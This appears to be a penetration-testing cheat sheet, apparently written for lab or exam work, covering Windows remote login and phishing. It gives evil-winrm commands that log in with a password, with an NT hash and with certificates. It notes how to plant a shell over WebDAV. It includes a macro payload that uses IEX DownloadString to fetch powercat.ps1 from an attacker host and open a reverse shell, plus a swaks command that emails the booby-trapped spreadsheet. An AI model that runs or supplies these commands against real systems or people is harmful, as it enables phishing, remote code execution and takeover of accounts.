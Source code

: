## Evil-WinRM

Login with password
```
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

Login with NT Hash 
```
evil-winrm -i 10.10.11.236 -H <NT HASH> -u administrator
```

Login with cert and pem files over winrm over ssl (5986)
```
evil-winrm -S -i 10.10.11.152 -c key.cert -k key.pem
```

## WebDAV 
Port: 
Authenticate to WebDAV server 
```
cadaver $IP  
```
- After auth -> pop a shell onto the server with put command

# Phishing 

## Malicious macro creation 

## Malicious Macro Generator LibreOffice/OpenOffice
[GitHub Repo](https://github.com/0bfxgh0st/MMG-LO/)
Create malicious calc spreadsheet that downloads PowerCat.ps1 to target and launches reverse shell 
### Payload in mmg-ods.py
```
build_payload = (f'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.152/powercat.ps1");powercat -c {ip} -p {port} -e powershell')
```

### Generate malicious ODS file 
```
python3 mmg-ods.py windows <ATTACKER IP> <ATTACKER PORT>
```

## Send Phishing Email 

### swaks 
Send malicious LibreOffice .ods file 
```
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.ods --server 192.168.236.140 --body "Please check this spreadsheet" --header "Subject: Please check this spreadsheet"
```
